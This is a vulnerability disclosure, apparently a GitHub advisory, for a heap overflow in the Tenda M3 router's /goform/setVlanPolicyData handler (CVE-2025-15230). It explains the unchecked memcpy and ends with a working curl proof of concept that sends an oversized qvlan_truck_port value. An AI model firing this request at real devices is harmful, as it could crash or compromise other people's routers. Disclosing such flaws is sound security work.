



# Tenda M3 setVlanPolicy Heap Overflow

## Description

The **formSetVlanPolicy** handler in `/bin/httpd` is vulnerable to heap overflow due to the absence of user input sanitization and bounds checking on parameter **qvlan_truck_port**

## Details

*   **Vendor**: Tenda

*   **Product**: Tenda M3

*   **Firmware Version**: V1.0.0.13(4903)_CN&EN

*   **Firmware Download**: https://www.tendacn.com/material/show/104888

*   **Component**: `/goform/setVlanPolicyData` (formSetVlanPolicy handler)

*   **Vulnerability Type**: Heap-based Buffer Overflow (CWE-122) and Memory Corruption (CWE-119)

*   **CVE ID**: CVE-2025-15230

*   **Reported by**: Charbel


## PoC

The vulnerability is in the `memcpy()` call (highlighted below) performed using parameter **qvlan_truck_port** controlled by the user with no bounds checking.

Here we can see the request params being parsed by the handler. Notice param **qvlan_truck_port** being referenced as `local_3c`



And further down we can the **qvlan_truck_port** referenced as `local_3c` used in the vulnerable `memcpy()` call and being copied into `_dest_00` which points to `local_14` which in turn points to a heap block being allocated by the `malloc()` call just above.



Send a POST request to the `/goform/setVlanPolicyData` endpoint to trigger the heap overflow in `formSetVlanPolicy`

```
curl -X POST http://172.16.182.130/goform/setVlanPolicyData -d "action=1" -d "policyName=test" -d "vlanEn=1" -d "qvlan_pvid=1" -d "manage_vlan=1" -d "lan0_vlanid=10" -d "lan1_vlanid=20" -d "lan2_vlanid=30" -d "qvlan_truck_port=$(python3 -c 'print("A"*100000)')"
```


